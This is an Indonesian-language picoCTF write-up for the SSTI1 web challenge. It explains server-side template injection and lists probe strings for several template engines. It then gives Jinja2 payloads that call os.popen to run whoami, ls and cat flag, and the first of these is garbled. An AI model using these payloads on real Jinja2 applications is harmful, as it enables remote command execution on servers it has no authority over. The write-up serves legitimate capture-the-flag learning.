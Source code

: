 # SSTI1

saya akan memberikan solusi terperinci untuk tantangan SSTI1 dari kategori eksploitasi web PICOCTF, yang dikategorikan sebagai tantangan level yang mudah.

Nama tantangan-SSTI, adalah kependekan dari injeksi template sisi server. SSTI terjadi ketika aplikasi web memungkinkan pengguna untuk mengirimkan data yang diproses oleh mesin templat di server tanpa validasi yang tepat. Mesin template digunakan untuk menghasilkan konten dinamis, namun jika input yang diberikan pengguna tidak disanitasi, penyerang dapat menyuntikkan kode berbahaya yang dijalankan server.

Dalam hal ini, untuk mengidentifikasi mesin templat mana yang digunakan oleh aplikasi, kami dapat menyuntikkan muatan tertentu dan mengamati responsnya. Di bawah ini adalah beberapa mesin templat umum dan muatan uji yang sesuai:

```bash
Jinja2 (Python Flask/Django): {{ 7*7 }}
Freemarker (Java): ${7*7}
Velocity (Java): #set($a = 7*7)${a}
Thymeleaf (Java): ${7*7}
Twig (PHP Symfony): {{ 7*7 }}
Smarty (PHP): {$7*7}
Mako (Python): <% print 7*7 %>
```

## Documentation

![App Screenshot](/images/1.png)

![App Screenshot](/images/2.png)

Sekarang untuk menyelesaikan tantangan, kita perlu menemukan nilai bendera yang bisa kita dapatkan dengan melakukan injeksi perintah atau serangan eksekusi kode jarak jauh. Kami dapat mencari muatan yang tersedia sehubungan dengan Jinja2 untuk menjalankan injeksi perintah.

Mari kita berikan input seperti di bawah ini :

```bash
  {{self._templateReference__context.cycler .__ init __.__ global __. os.popen (‘whoami’) .read ()}}
```

![App Screenshot](/images/3.png)

Telah dikonfirmasi bahwa aplikasi rentan terhadap serangan injeksi perintah dan sekarang kita dapat mencari file flag menggunakan perintah ‘LS’ untuk mendaftar file yang tersedia di direktori Currect dengan memberikan input seperti di bawah ini -

```bash
  {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen(‘ls’).read() }}
```

![App Screenshot](/images/4.png)

Untungnya, kami memiliki file flag di folder yang sama sehingga kami tidak perlu mencarinya lebih lanjut dan kami dapat langsung membaca konten file flag menggunakan perintah CAT seperti yang ditunjukkan di bawah ini -

```bash
  {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen(‘cat flag’).read() }}
```
